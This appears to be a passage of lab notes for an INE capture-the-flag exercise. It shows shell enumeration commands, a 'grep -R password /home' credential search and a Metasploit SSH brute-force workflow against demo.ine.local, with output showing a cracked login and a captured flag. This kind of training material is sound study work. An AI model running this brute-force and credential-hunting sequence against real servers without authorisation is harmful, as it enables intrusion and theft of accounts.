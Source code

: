 **Safe initial commands to run inside shell**
```
whoami
id
uname -a
cat /etc/os-release
ps aux --no-heading | head -n 30
ls -la ~/
```
**File search examples**
```
find / -name "flag" 2>/dev/null
grep -R "password" /home 2>/dev/null
```
**Notes**
- Preserve evidence. Avoid destructive actions. Record timestamps and output. Export files via `scp` or `sftp` when needed.

---

## INE lab example (complete SSH workflow)
### Input
```bash
# Version probe
use auxiliary/scanner/ssh/ssh_version
set RHOSTS demo.ine.local
run

# Brute-force login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
run

# Collect host keys
use auxiliary/scanner/ssh/ssh_known_hosts
set RHOSTS demo.ine.local
run
```

### Output (aggregated)
```
[*] 192.61.134.3 - Key Fingerprint: ssh-ed25519 AAAAC3Nza...
[*] 192.61.134.3 - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10
[-] 192.61.134.3:22 - Failed: 'sysadmin:yourface'
[+] 192.61.134.3:22 - Success: 'sysadmin:hailey'
[*] SSH session 1 opened (192.61.134.2:42819 -> 192.61.134.3:22)
find: '/root': Permission denied
/flag
eb09cc6f1cd72756da145892892fbf5a
```
